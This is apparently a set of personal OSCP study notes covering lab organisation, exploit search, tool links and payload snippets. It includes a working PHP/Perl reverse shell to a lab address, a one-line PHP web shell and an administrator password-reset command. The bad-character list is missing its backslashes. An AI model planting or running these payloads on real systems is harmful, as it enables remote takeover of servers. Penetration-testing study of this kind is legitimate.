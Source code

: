 # OSCP Notes
My notes on OSCP
 
## CLI Notes

### Lab
Setup a good folder/file naming structure to organize your work. I have three main folders:
- exploits: work-in-progress info
    - host1
    - host2
    - _recon: network-wide scans data
- network1: contains finished hosts under network1 (moved from exploits directory)
- network2: contains finished hosts under network2
- reports


Setup shell aliases for connecting to OVPN & Windows machine
Under `.bashrc` in Kali
```
cd
lab="openvpn YOUR_OVPN_FILE.ovpn"
win="rdesktop -u username -p password 1.2.3.4"
source .bashrc
```

Reset Windows user password
```
net user administrator newpassword
```

### Kali
Search exploits
```
searchsploit wordpress escalation
...snip...
cp /usr/share/exploitdb/exploits/php/webapps/12345.txt ./
````

## Useful Tools
MS17-010

[AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010)

Add addtional vulnerability scanning capability to NMAP

[Vulners](https://github.com/vulnersCom/nmap-vulners)

msfvenom *replaced msfpayload in older articles*

[Msfvenom Cheat Sheet](https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/)

gobuster
[Gobuster Package Description](https://tools.kali.org/web-applications/gobuster)

## Useful Bookmarks
Detailed explanation on how tools/exploits work.

### Windows
[Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
[AutoBlue](https://0xdf.gitlab.io/2019/02/22/wl-dummy.html)

### MySQL
[GAINING A ROOT SHELL USING MYSQL USER DEFINED FUNCTIONS AND SETUID BINARIES](https://infamoussyn.wordpress.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/)

### Oracle
[Variations in Exploit methods between Linux and Windows](https://www.blackhat.com/presentations/bh-usa-03/bh-us-03-litchfield-paper.pdf)

### Metasploit
[Deep Dive Into Stageless Meterpreter Payloads](https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/)
[Offensive Msfvenom: From Generating Shellcode to Creating Trojans] (https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86)

### Java
[Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet)
[Java RMI](https://github.com/JoyChou93/java-sec-code/wiki/Java-RMI)

### Shell Code

[0x7 Exploit Tutorial: Bad Character Analysis](http://www.primalsecurity.net/0x7-exploit-tutorial-bad-character-analysis/)
```python
bad_chars = ""
bad_chars += "x01x02x03x04x05x06x07x08x09x0ax0bx0cx0dx0ex0fx10"
bad_chars += "x11x12x13x14x15x16x17x18x19x1ax1bx1cx1dx1ex1fx20"
bad_chars += "x21x22x23x24x25x26x27x28x29x2ax2bx2cx2dx2ex2fx30"
bad_chars += "x31x32x33x34x35x36x37x38x39x3ax3bx3cx3dx3ex3fx40"
bad_chars += "x41x42x43x44x45x46x47x48x49x4ax4bx4cx4dx4ex4fx50"
bad_chars += "x51x52x53x54x55x56x57x58x59x5ax5bx5cx5dx5ex5fx60"
bad_chars += "x61x62x63x64x65x66x67x68x69x6ax6bx6cx6dx6ex6fx70"
bad_chars += "x71x72x73x74x75x76x77x78x79x7ax7bx7cx7dx7ex7fx80"
bad_chars += "x81x82x83x84x85x86x87x88x89x8ax8bx8cx8dx8ex8fx90"
bad_chars += "x91x92x93x94x95x96x97x98x99x9ax9bx9cx9dx9ex9fxa0"
bad_chars += "xa1xa2xa3xa4xa5xa6xa7xa8xa9xaaxabxacxadxaexafxb0"
bad_chars += "xb1xb2xb3xb4xb5xb6xb7xb8xb9xbaxbbxbcxbdxbexbfxc0"
bad_chars += "xc1xc2xc3xc4xc5xc6xc7xc8xc9xcaxcbxccxcdxcexcfxd0"
bad_chars += "xd1xd2xd3xd4xd5xd6xd7xd8xd9xdaxdbxdcxddxdexdfxe0"
bad_chars += "xe1xe2xe3xe4xe5xe6xe7xe8xe9xeaxebxecxedxeexefxf0"
bad_chars += "xf1xf2xf3xf4xf5xf6xf7xf8xf9xfaxfbxfcxfdxfexff"
```

### Reverse Shell
PHP calls perl for reverse shell (quotes must be escaped properly - test it locally first!)
```php
<?php
$cmd = "perl -e 'use Socket;\$i=\"10.11.0.90\";\$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in(\$p,inet_aton(\$i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'";
shell_exec($cmd);
?>
```

### Web Shell
PHP
```php
<?php echo shell_exec($_GET["cmd"]); ?>
```


### Exam
[A Script Kiddie’s guide to Passing OSCP on your first attempt](https://forum.hackthebox.eu/discussion/1730/a-script-kiddie-s-guide-to-passing-oscp-on-your-first-attempt)

[Pentest Book](https://chryzsh.gitbooks.io/pentestbook/content/list_of_common_ports.html)